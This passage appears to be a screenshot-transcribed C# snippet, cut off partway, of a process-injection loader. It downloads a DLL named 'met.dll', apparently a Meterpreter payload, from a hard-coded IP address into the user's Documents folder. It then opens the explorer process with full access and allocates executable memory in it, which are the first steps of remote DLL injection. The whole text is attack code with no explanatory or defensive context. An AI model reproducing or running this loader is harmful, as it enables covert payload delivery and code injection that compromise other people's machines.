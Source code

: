 ```csharp

        static async Task Main()

        {

  

            String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);

            String dllName = dir + "\\met.dll";

  

            try

            {

                HttpResponseMessage response = await client.GetAsync("http://192.168.1.113/met.dll");

                if (response.IsSuccessStatusCode)

                {

                    using (var fs = new FileStream(dllName, FileMode.Create, FileAccess.Write, FileShare.None))

                    {

                        await response.Content.CopyToAsync(fs);

                    }

                }

  

            }

            catch (HttpRequestException e)

            {

                Console.WriteLine("Exception Caught!");

                Console.WriteLine($"Message: {e.Message}");

            }


            Process[] expProc = Process.GetProcessesByName("explorer");

            int pid = expProc[0].Id;

  

            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);

            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            IntPtr outSize;

```